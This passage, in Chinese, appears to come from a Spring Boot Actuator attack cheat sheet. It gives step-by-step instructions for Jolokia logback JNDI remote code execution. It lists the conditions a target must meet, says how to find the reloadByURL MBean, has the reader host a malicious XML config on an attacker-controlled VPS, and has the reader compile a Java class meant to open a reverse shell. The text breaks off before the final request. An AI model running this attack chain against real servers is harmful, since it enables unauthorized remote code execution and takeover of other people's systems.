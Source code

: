 repository/springboot-eureka-xstream-rce

正常访问：

```
http://127.0.0.1:9093/env


```

### 0x04：jolokia logback JNDI RCE

#### 利用条件：

*   目标网站存在 `/jolokia` 或 `/actuator/jolokia` 接口
    
*   目标使用了 `jolokia-core` 依赖（版本要求暂未知）并且环境中存在相关 MBean
    
*   目标可以请求攻击者的 HTTP 服务器（请求可出外网）
    
*   普通 JNDI 注入受目标 JDK 版本影响，jdk <6u201/7u191/8u182/11.0.1(LDAP)，但相关环境可绕过
    

#### 利用方法：

##### 步骤一：查看已存在的 MBeans

访问 `/jolokia/list` 接口，查看是否存在 `ch.qos.logback.classic.jmx.JMXConfigurator` 和 `reloadByURL` 关键词。

##### 步骤二：托管 xml 文件

在自己控制的 vps 机器上开启一个简单 HTTP 服务器，端口尽量使用常见 HTTP 服务端口（80、443）

```
# 使用 python 快速开启 http server

python2 -m SimpleHTTPServer 80
python3 -m http.server 80

```

在根目录放置以 `xml` 结尾的 `example.xml` 文件，内容如下：

```
<configuration>
  <insertFromJNDI env-entry- />
</configuration>

```

##### 步骤三：准备要执行的 Java 代码

编写优化过后的用来反弹 shell 的 Java 示例代码 `JNDIObject.java`，

使用兼容低版本 jdk 的方式编译：

```
javac -source 1.5 -target 1.5 JNDIObject.java

```
